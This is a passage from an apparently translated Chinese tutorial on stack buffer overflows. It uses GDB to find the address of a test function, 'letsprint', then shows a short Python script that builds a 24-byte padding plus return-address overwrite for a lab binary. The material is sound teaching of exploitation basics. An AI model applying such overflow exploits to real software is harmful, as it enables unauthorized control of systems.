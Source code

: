 现在，通过查看错误，我们看到我们注入的`b`字符在里面。在这一点上，我们做得很好。现在我们知道了我们的注入形式，让我们尝试使用`disassemble`命令执行`letsprint`函数：

```
$ disassemble letsprint
```

前面命令的输出可以在以下截图中看到：

![](img/00238.jpeg)

我们得到了`letsprint`函数中的第一条指令，`push rbp`，地址为`0x00000000004005e3`，我们需要的是真实地址；我们也可以使用`print`命令来获取地址：

```
$ print letsprint
```

前面命令的输出可以在以下截图中看到：

![](img/00239.jpeg)

现在我们有了地址，让我们尝试使用 Python 构建我们的利用，因为我们不能直接传递地址：

```
#!/usr/bin/python
from struct import *

buffer = ''
buffer += 'a'*24
buffer += pack("<Q", 0x0000004005e3)
f = open("input.txt", "w")
f.write(buffer)
```

然后，我们执行它以生成新的输入：

```
$ ./exploit
```

现在，在 GDB 中，运行以下命令：

```
$ run $(cat input.txt)
```

